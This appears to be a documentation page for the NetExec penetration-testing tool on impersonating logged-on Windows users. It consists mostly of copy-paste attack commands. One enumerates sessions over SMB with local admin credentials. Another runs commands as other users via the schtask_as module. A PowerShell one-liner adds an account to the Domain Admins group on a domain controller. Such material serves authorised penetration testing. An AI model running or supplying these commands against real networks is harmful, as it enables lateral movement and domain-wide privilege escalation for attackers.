 # Impersonate logged-on users

## You need at least local admin privilege on the remote target!

### The Module schtask_as can execute commands on behalf on other users which has sessions on the target

### 1) Enumerate logged-on users on your target

    nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users

### 2) Execute commands on behalf of other users

    nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user< CMD=<cmd-command<

## Custom command to add an user to the domain admin group for easy copy&pasting: 

    powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
